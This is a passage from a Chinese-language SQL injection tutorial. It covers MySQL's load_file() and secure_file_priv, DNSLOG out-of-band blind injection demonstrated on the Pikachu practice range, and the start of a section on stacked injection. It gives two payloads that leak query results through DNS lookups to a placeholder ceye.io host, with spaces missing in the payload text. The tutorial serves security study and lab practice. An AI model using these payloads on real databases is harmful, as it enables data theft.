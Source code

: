 
### load_file() 函数

上文我们提到，`load_file()`函数可以读取**任意**盘的文件才可以使用 DNSLOG 注入，它的读取范围由 Mysql 配置文件`my.ini`中的`secure_file_priv`参数决定

- 当`secure_file_priv`为空，就可以读取磁盘的目录
- 
- 当`secure_file_priv`为`G:\`，就可以读取G盘的文件
- 当`secure_file_priv`为 null，`load_file()`函数就不能加载文件（null 和空是两种情况）

### DNSLOG 盲注原理

先给出最常用的两种 Payload

```
Payload1: andif((selectload_file(concat('//',(select攻击语句),'.xxxx.ceye.io/sql_test'))),1,0) Payload2: andif((selectload_file(concat('\\\\',(select攻击语句),'.xxxx.ceye.io\\sql_test'))),1,0)
```

Payload 1,2 大体的思路都是一样的，也就是在`if()`函数中嵌套`load_file()`函数再使用 UNC 路径进行读取，`sql_test`这里写什么都可以，只是为了符合`load_file()`函数格式，读取时会产生 DNS 访问信息，唯一的不同点在于 Payload 2 在 URL 中使用`\(反斜杠)`时要双写配合转义

> 转义：转义是一种引用单个字符的方法. 一个前面放上转义符()的字符就是告诉 shell 这个字符按照字面的意思进行解释

这里使用 Pikachu 靶场的时间盲注关卡进行演示，方便大家进行理解，在测试前一定先要确保`secure_file_priv`选项为空，可以使用`show variables like '%secure%';`进行查询

![img](https://picx.zhimg.com/80/v2-d553f9ab4f3f79053cf5c941625c6347_1440w.webp)



在修改`my.ini`文件时需要注意`secure_file_priv`选项是新增的，本身并没有这个选项

![img](https://pic3.zhimg.com/80/v2-f7ccb3087e2aaac63ad90c1b0f0bf0d8_1440w.webp)



通过判断可以发现是单引号闭合，先爆出库名，可以通过 DNSLOG 平台看到库名为 pikachu

![img](https://pic3.zhimg.com/80/v2-8d9a0dbb596bc216975f925bbae7100c_1440w.webp)



这里还可以使用`hex()`函数，将回显内容编码为十六进制，这样做的好处是，假设回显内容存在特殊字符`!@#$%^&`，包含特殊字符的域名无法被解析，DNSLOG也就无法记录信息，进行编码后就不存在这个问题

![img](https://picx.zhimg.com/80/v2-7749ce6db81e1da2ce4e73670c5132f5_1440w.webp)



后面整体的思路和联合查询基本一致，只是利用 DNSLOG 创造了回显的条件，这里不再赘述

# 堆叠注入

堆叠注入的基本原理是在一条 SQL 语句结束后（通常使用分号`;`标记结束），继续构造并执行下一条SQL语句，这种注入方法可以执行任意类型的语句，包括查询、插入、更新和删除等等

与联合注入相比，**堆叠注入最明显的差别便是它的权限更大了**，例如使用联合注入时，后端使用的是 select 语句，那么我们注入时也只能执行 select 操作，而堆叠查询是一条新的 SQL 语句，不受上一句的语法限制，操作的权限也就更大了
